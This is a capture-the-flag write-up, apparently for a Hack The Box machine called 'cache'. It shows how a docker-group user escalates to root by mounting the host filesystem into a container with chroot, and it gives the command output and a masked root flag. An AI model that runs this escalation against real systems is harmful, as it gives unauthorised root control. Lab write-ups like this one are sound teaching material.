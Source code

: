 ## Elevating Priv: luffy -> root

User luffy is a member of docker group:

```shell
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```
There's already an ubuntu image on the box, so we can leverage it to escalate to root referring [**gtfo**](https://gtfobins.github.io/gtfobins/docker/):

```shell
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        13 months ago       64.2MB
```
#### Docker privesc
We'll launch the image as a container and mount the root file system into it which will drop us a shell:

```shell
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Grabbing root.txt
```
# cat /root/root.txt
c4b77e278753a0******************

```
And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
